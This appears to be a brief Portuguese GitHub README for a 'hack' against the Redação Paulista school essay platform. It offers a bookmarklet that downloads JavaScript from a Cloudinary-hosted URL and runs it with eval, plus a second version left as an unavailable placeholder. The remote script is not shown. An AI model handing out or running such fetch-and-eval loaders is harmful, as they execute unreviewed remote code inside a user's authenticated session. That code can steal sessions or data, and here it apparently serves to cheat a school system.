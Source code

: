 # 🚀 HCK - REDAÇÃO PAULISTA 

## REDAÇÃO V2 (MANUTENÇÃO)
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1747913727/redacaov2.js").then(t=>t.text()).then(eval);
```

## REDAÇÃO V3
```js
javascript:fetch("INDISPONÍVEL").then(t=>t.text()).then(eval);
```
